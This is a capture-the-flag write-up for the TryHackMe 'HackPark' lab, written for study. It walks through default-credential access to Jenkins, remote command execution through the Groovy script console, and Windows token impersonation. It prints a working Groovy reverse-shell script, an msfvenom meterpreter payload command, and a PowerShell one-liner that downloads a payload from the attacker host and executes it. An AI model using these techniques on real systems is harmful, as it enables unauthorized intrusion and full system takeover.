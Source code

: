 ```yaml
---
layout: solution
category: TryHackMe
contest_code: Advanced_Exploitation
contest_name: Advanced Exploitation
problem_code: HackPark
problem_name: HackPark
comments: false
tags: jenkins windows_tokens
date: 2021-08-28
---
```


### A simple nmap scan was conducted on the machine. Turns out it is running a website on port 80 and 8080. Also running RDP on port 3389

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/HackPark/nmap.png)

‎


### The website on port 80 does not look interesting enough

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/HackPark/web1.png)

‎


### The website on port 8080 was found to have a login page. Default `admin:admin` credentials was used to login into the webpage

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/HackPark/web2.png)

‎


### After logged in as admin, it brought us to this page, where it can be used to manage Jenkins

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/HackPark/index.png)

‎


### The script page allowed us to execute remote commands in groovy language. This allows us to perform RCE. 

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/HackPark/command_exec.png)

‎


### A reverse shell groovy script was created and executed to gain a reverse shell
```groovy
String host="10.11.21.149";
int port=9999;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/HackPark/reverse_shell.png)

<p style="color:orange;">The reverse shell was obtained using Ncat as a listener</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/HackPark/ncat.png)

<p style="color:orange;">We are able to get our first flag</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/HackPark/flag1.png)

‎


### It's always good to always to obtain a better shell for higher flexibility. Thus I had attempted to upgrade this simple shell to a meterpreter shell and hosted it on port 80
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.21.149 LPORT=8000 -f exe -o shell.exe
```
<p style="color:orange;">Creating Meterpreter shell</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/HackPark/msfconsole.png)

<p style="color:orange;">Hosting Payload</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/HackPark/host.png)

‎


### However, this machine runs on older version of powershell  which does not support `Invoke-WebRequest` library (alternative to wget). Thus, another approach was used to download our meterpreter payload to obtain a meterpreter shell
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.21.149/shell.exe','shell.exe')" && shell.exe
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/HackPark/download.png)

<p style="color:orange;">Obtaining a reverse meterpreter shell</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/HackPark/meterpreter_shell.png)

‎


### In order to privilege escalate we can impersonate windows tokens.
### Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).
### Thus, we can view all the privileges using `whoami /priv`. We can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. We can use the incognito module that will allow us to exploit this vulnerability
```
whoami /priv
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/HackPark/privilege_list.png)

‎


### We can list user token by using the command `list_tokens -u`. We are able to see that NT Authority\System token is available. We then can proceed impersonating the token by executing `impersonate_token "NT AUTHORITY\SYSTEM"` to escalate our privilege

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/HackPark/escalation.png)

‎


### However, even though we have a higher privileged token, we may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). 
### To mitigate from this, we can migrate to a process with correct permissions. The safest process to pick is the `services.exe` process.

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/HackPark/root.png)
